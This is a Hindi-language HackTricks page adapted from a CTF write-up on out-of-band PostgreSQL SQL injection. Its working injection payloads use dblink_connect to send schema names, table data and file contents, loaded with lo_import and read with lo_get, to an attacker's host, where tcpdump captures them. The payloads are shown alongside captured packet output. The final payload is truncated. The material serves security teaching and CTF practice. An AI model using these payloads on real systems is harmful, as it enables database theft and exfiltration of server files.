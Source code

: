 # dblink/lo\_import डेटा अपहरण

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करें [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में।**

</details>

**यह एक उदाहरण है कि कैसे `lo_import` का उपयोग करके डेटाबेस में फ़ाइलों को लोड करके उन्हें `dblink_connect` का उपयोग करके अपहरण किया जा सकता है।**

## अपहरण सर्वर/असमंजस SQL Injection की तैयारी

**से निकाला गया:** [**https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md**](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

क्योंकि `pg_sleep` भी देरी का कारण नहीं करता है, हम सुरक्षित रूप से मान सकते हैं कि क्वेरी का निष्पादन पिछले प्लेन में या असमंजस में होता है।

सामान्यतया, `dblink_connect` का उपयोग एक स्थायी कनेक्शन खोलने के लिए किया जा सकता है एक दूरस्थ PostgreSQL डेटाबेस के साथ (उदा। `SELECT dblink_connect('host=HOST user=USER password=PASSWORD dbname=DBNAME')`)। क्योंकि हम इस फ़ंक्शन के पैरामीटर को नियंत्रित कर सकते हैं, हम अपने ही होस्ट के प्रति SQL सर्वर साइड अनुरोध निष्पादित कर सकते हैं। इसका मतलब है, हम SQL क्वेरी परिणामों से डेटा अपहरण करने के लिए Out-of-Band SQL Injection का निष्पादन कर सकते हैं। कम से कम, इसके दो तरीके हैं:

1. एक **DNS सर्वर** सेट अप करें और फिर `[डेटा].हमारा.डोमेन` पर कनेक्शन को ट्रिगर करें ताकि हम लॉग में या DNS नेटवर्क पैकेट में डेटा देख सकें।
2. एक **सार्वजनिक PostgreSQL सर्वर सेट अप करें, PostgreSQL पोर्ट के लिए आने वाले नेटवर्क पैकेटों का मॉनिटरिंग** करें, और फिर अपहृत डेटा के रूप में `user`/`dbname` के साथ हमारे होस्ट के साथ कनेक्शन को ट्रिगर करें। **डिफ़ॉल्ट** रूप से, PostgreSQL संचार के लिए SSL का उपयोग नहीं करता है, इसलिए हम नेटवर्क पर `user`/`dbname` को **सादा-पाठ** के रूप में देख सकते हैं।

**दूसरी विधि आसान है** क्योंकि हमें कोई डोमेन की आवश्यकता नहीं होती है। हमें केवल एक सर्वर को सार्वजनिक आईपी के साथ सेट अप करना होता है, PostgreSQL इंस्टॉल करना होता है, PostgreSQL सेवा को \*/0.0.0.0 पर सुनने के लिए सेट करना होता है, और एक नेटवर्क डंपर (उदा। tcpdump) चलाना होता है ताकि PostgreSQL पोर्ट (डिफ़ॉल्ट रूप से 5432) के लिए ट्रैफ़िक का मॉनिटरिंग किया जा सके। PostgreSQL को सेट करने के लिए ताकि यह **सार्वजनिक रूप से सुने**, `postgresql.conf` में `listen_addresses` को `*` पर सेट करें।
```
listen_addresses = '*'
```
आगंतुक ट्रैफिक का मॉनिटरिंग करने के लिए, पोर्ट 5432 का मॉनिटरिंग करने के लिए `tcpdump` चलाएं।
```
sudo tcpdump -nX -i eth0 port 5432
```
यदि हमें लक्ष्य से कनेक्शन मिलता है, तो हम इस क्वेरी का उपयोग करके प्रयास कर सकते हैं:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=farisv password=postgres dbname=hellofromfb')) --
```
यदि सफल होता है, तो हमें पठनीय `user` और `dbname` के साथ एक नेटवर्क पैकेट का टुकड़ा मिलता है।
```
17:14:11.267060 IP [54.185.163.254.50968] > [REDACTED]: Flags [P.], seq 1:43, ack 1, win 229, options [nop,nop,TS val 970078525 ecr 958693110], length 42
0x0000:  4500 005e 9417 4000 2706 248c 36b9 a3fe  E..^..@.'.$.6...
0x0010:  9de6 2259 c718 2061 5889 142a 9f8a cb5d  .."Y...aX..*...]
0x0020:  8018 00e5 1701 0000 0101 080a 39d2 393d  ............9.9=
0x0030:  3924 7ef6 0000 002a 0003 0000 7573 6572  9$~....*....user
0x0040:  0066 6172 6973 7600 6461 7461 6261 7365  .farisv.database
0x0050:  0068 656c 6c6f 6672 6f6d 6662 0000       .hellofromfb.
```
तब हम कई PostgreSQL क्वेरी का उपयोग करके डेटाबेस को निकालना जारी रख सकते हैं। ध्यान दें कि हर क्वेरी परिणाम में जो श्वेतांश होता है, हमें `encode` फ़ंक्शन के साथ इसे **हेक्स/बेस64** में बदलना होगा या `replace` फ़ंक्शन के साथ इसे अन्य वर्णकार के साथ बदलना होगा क्योंकि इससे `dblink_connect` प्रक्रिया के दौरान एक्सीक्यूशन त्रुटि होगी।

**स्कीमा की सूची** प्राप्त करें:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(schema_name,':') FROM information_schema.schemata) || ' password=postgres dbname=postgres')) --
```

```
17:36:46.538178 IP 54.185.163.254.51018 > [REDACTED]: Flags [P.], seq 1:70, ack 1, win 229, options [nop,nop,TS val 971433789 ecr 960048322], length 69
0x0000:  4500 0079 ecd5 4000 2706 cbb2 36b9 a3fe  E..y..@.'...6...
0x0010:  9de6 2259 c74a 2061 1e74 4769 b404 803d  .."Y.J.a.tGi...=
0x0020:  8018 00e5 2710 0000 0101 080a 39e6 e73d  ....'.......9..=
0x0030:  3939 2cc2 0000 0045 0003 0000 7573 6572  99,....E....user
0x0040:  0070 7562 6c69 633a 696e 666f 726d 6174  .public:informat
0x0050:  696f 6e5f 7363 6865 6d61 3a70 675f 6361  ion_schema:pg_ca
0x0060:  7461 6c6f 6700 6461 7461 6261 7365 0070  talog.database.p
0x0070:  6f73 7467 7265 7300 00                   ostgres.
```
वर्तमान स्कीमा में **तालिकाओं** की **सूची** प्राप्त करें:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(tablename, ':') FROM pg_catalog.pg_tables WHERE schemaname=current_schema()) || ' password=postgres dbname=postgres')) --
```

```
17:38:30.515438 IP 54.185.163.254.51026 > [REDACTED]: Flags [P.], seq 1:42, ack 1, win 229, options [nop,nop,TS val 971537775 ecr 960152304], length 41
0x0000:  4500 005d f371 4000 2706 c532 36b9 a3fe  E..].q@.'..26...
0x0010:  9de6 2259 c752 2061 8dd4 e226 24a3 a5c5  .."Y.R.a...&$...
0x0020:  8018 00e5 fe2b 0000 0101 080a 39e8 7d6f  .....+......9.}o
0x0030:  393a c2f0 0000 0029 0003 0000 7573 6572  9:.....)....user
0x0040:  0073 6561 7263 6865 7300 6461 7461 6261  .searches.databa
0x0050:  7365 0070 6f73 7467 7265 7300 00         se.postgres.
```
**गणना** करें `searches` तालिका में **पंक्तियों** की।
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT COUNT(*) FROM searches) || ' password=postgres dbname=postgres')) --
```

```
17:42:39.511643 IP 54.185.163.254.51034 > [REDACTED]: Flags [P.], seq 1:35, ack 1, win 229, options [nop,nop,TS val 971786760 ecr 960401280], length 34
0x0000:  4500 0056 7982 4000 2706 3f29 36b9 a3fe  E..Vy.@.'.?)6...
0x0010:  9de6 2259 c75a 2061 5ec0 7df0 8611 357d  .."Y.Z.a^.}...5}
0x0020:  8018 00e5 f855 0000 0101 080a 39ec 4a08  .....U......9.J.
0x0030:  393e 8f80 0000 0022 0003 0000 7573 6572  9>....."....user
0x0040:  0030 0064 6174 6162 6173 6500 706f 7374  .0.database.post
0x0050:  6772 6573 0000                           gres.
```
ऐसा लगता है कि वर्तमान स्कीमा में केवल एक खाली तालिका है और फ़्लैग डेटाबेस में नहीं है। हमें वास्तव में `/var/lib/postgresql/data/secret` से डेटा निकालने की आवश्यकता हो सकती है। दुर्भाग्य से, यदि हम `pg_read_file` या `pg_read_binary_file` का उपयोग करके फ़ाइल पढ़ने का प्रयास करें, तो हमें एक इनकमिंग कनेक्शन नहीं मिलेगा ताकि वर्तमान उपयोगकर्ता को इन फ़ंक्शन का उपयोग करने की अनुमति नहीं हो सकती है।

#### पोस्टग्रेसक्यूएल के साथ असिंक्रोनस SQLInjection की अधिक जानकारी

* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

## **लार्ज ऑब्जेक्ट सामग्री को निकालना**

लार्ज ऑब्जेक्ट्स का उपयोग करके फ़ाइल पढ़ना संभव है ([https://www.postgresql.org/docs/11/lo-funcs.html](https://www.postgresql.org/docs/11/lo-funcs.html))। हम `lo_import` का उपयोग कर सकते हैं ताकि फ़ाइल की सामग्री को `pg_largeobject` कैटलॉग में लोड कर सकें। यदि क्वेरी सफल होती है, तो हमें ऑब्जेक्ट का `oid` मिलेगा।
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT lo_import('/var/lib/postgresql/data/secret')) || ' password=postgres dbname=postgres')) --
```

```
17:54:51.963925 IP 54.185.163.254.51046 > [REDACTED]: Flags [P.], seq 1:39, ack 1, win 229, options [nop,nop,TS val 972519214 ecr 961133706], length 38
0x0000:  4500 005a 071f 4000 2706 b188 36b9 a3fe  E..Z..@.'...6...
0x0010:  9de6 2259 c766 2061 26fb c8a7 bbb3 fe01  .."Y.f.a&.......
0x0020:  8018 00e5 2272 0000 0101 080a 39f7 772e  ...."r......9.w.
0x0030:  3949 bc8a 0000 0026 0003 0000 7573 6572  9I.....&....user
0x0040:  0032 3436 3638 0064 6174 6162 6173 6500  .24668.database.
0x0050:  706f 7374 6772 6573 0000                 postgres..
```
हमें `oid` के रूप में 24668 प्राप्त हुआ है, इसका मतलब है कि हम `lo_import` फ़ंक्शन का उपयोग कर सकते हैं। दुर्भाग्य से, हम `lo_get(24668)` का उपयोग करके बड़े ऑब्जेक्ट की सामग्री प्राप्त करने की कोशिश करें तो हमें कोई परिणाम नहीं मिलेगा या सीधे `pg_largeobject` कैटलॉग तक पहुंच नहीं होगी। **ऐसा लगता है कि वर्तमान उपयोगकर्ता को नए ऑब्जेक्ट की सामग्री को पढ़ने की अनुमति नहीं है।**

PostgreSQL में बड़े ऑब्जेक्ट्स के दस्तावेज़ीकरण को पढ़ने के बाद, हम यह जान सकते हैं कि **बड़े ऑब्जेक्ट्स में ACL (पहुंच नियंत्रण सूची) हो सकती है।** इसका मतलब है, यदि पुराने ऑब्जेक्ट में एक ACL है जो वर्तमान उपयोगकर्ता को इसे पढ़ने की अनुमति देता है, तो हम उस ऑब्जेक्ट की सामग्री को निकाल सकते हैं।

हम `pg_largeobject_metadata` से निकालकर उपलब्ध बड़े ऑब्जेक्ट के `oid` की सूची प्राप्त कर सकते हैं।
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(cast(l.oid as text), ':') FROM pg_largeobject_metadata l) || ' password=postgres dbname=postgres')) --
```

```
18:06:57.172285 IP 54.185.163.254.51052 > [REDACTED]: Flags [.], seq 1:2897, ack 1, win 229, options [nop,nop,TS val 973244413 ecr 961858878], length 2896
0x0000:  4500 0b84 7adf 4000 2606 339e 36b9 a3fe  E...z.@.&.3.6...
0x0010:  9de6 2259 c76c 2061 8d76 e934 10c9 3972  .."Y.l.a.v.4..9r
0x0020:  8010 00e5 a66d 0000 0101 080a 3a02 87fd  .....m......:...
0x0030:  3954 cd3e 0000 1c94 0003 0000 7573 6572  9T.>........user
0x0040:  0031 3635 3731 3a31 3634 3339 3a31 3635  .16571:16439:165
0x0050:  3732 3a31 3634 3431 3a31 3634 3432 3a31  72:16441:16442:1
0x0060:  3733 3732 3a31 3634 3434 3a31 3634 3435  7372:16444:16445
0x0070:  3a31 3831 3534 3a31 3733 3830 3a31 3737  :18154:17380:177
0x0080:  3038 3a31 3635 3737 3a31 3634 3530 3a31  08:16577:16450:1
0x0090:  3634 3531 3a31 3634 3532 3a31 3634 3533  6451:16452:16453

.....
.....
.....
```
हमें कई `oid` मिले हैं। हम `lo_get` का उपयोग करके ऑब्जेक्ट की सामग्री लोड करने की कोशिश कर सकते हैं। उदाहरण के लिए, `lo_get(16439)` `/etc/passwd` की सामग्री को लोड करेगा। `lo_gets` का परिणाम `bytea` होता है, इसलिए हमें इसे `UTF8` में परिवर्तित करने की आवश्यकता होती है ताकि इसे क्वेरी में जोड़ा जा सके।

हम कुछ ऑब्जेक्ट्स को लोड करने के लिए सबसे कम `oid` के साथ प्रयास कर सकते हैं ताकि हम जांच सकें कि क्या फ़्लैग फ़ाइल पहले से लोड हो चुकी है। फ़्लैग फ़ाइल ऑब्जेक्ट वास्तव में `oid` 16444 के साथ मौजूद है। फ़्लैग में कोई अंतरिक्ष नहीं है, इसलिए हम इसे जैसा है वैसा ही प्रदर्शित कर सकते हैं।

फ़्लैग को लोड करने के लिए:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT convert_from(lo_get(16444), 'UTF8')) || ' password=postgres dbname=p
```
#### oid की अधिक जानकारी:

* [https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module](https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module)
* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करना चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family) का

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** को PR जमा करके।

</details>
